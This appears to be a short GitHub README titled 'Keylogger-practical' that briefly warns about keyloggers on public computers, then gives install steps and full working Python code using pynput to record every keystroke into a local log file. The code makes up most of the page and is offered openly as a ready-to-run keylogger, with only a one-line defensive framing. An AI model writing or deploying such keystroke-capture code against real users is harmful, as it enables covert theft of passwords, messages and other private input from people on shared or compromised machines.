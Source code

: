 # Keylogger-practical

keylogger 
store all what you type.

-->in cyber cafe and other public pc is dangerous for us..

--->be sahe use virtual keyboarf, update system,antikeyloger install.

1..in powershell after installation of python..
2..type pip install pynput


from pynput.keyboard import Listener

def log_keystroke(key):
    key = str(key).replace("'", "")
    
    if key == "Key.space":
        key = " "
    elif key == "Key.enter":
        key = "\n"
    elif key.startswith("Key."):
        key = f"<{key[4:]}>"

    with open("log.txt", "a") as file:
        file.write(key)

with Listener(on_press=log_keystroke) as listener:
    listener.join()

